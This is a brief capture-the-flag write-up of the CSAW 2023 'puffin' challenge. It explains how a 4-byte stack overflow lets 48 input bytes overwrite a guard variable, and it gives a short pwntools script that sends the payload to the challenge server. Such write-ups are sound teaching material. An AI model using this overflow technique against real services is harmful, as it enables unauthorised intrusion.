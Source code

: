 ![ghidra decompilation](/assets/csaw23/pwn/puffin/decompilation_main.png)

We can see on `line 14` there is a buffer overflow of 4 bytes, since we are taking in 48 bytes but the `input_buffer` only holds 44 bytes. 

We want to change the `target` variable to something other than zero. Since `input_buffer` and the `target` variables are on the stack, we can overwrite `target`.

All we need to do is give 48 bytes. 44 of those bytes will fill up the `input_buffer` and the next 4 bytes will change the `target` variable to something non-zero, giving us the flag.

Final solve script:

```python
from pwn import *

payload = b'A'*48 # can be any random 48 bytes

p = remote('intro.csaw.io', 31140) # connecting to the server

p.sendline(payload) # sending our payload

p.interactive() # to read the program's output
```
Running this script gets us the flag:

![flag](/assets/csaw23/pwn/puffin/flag.png)
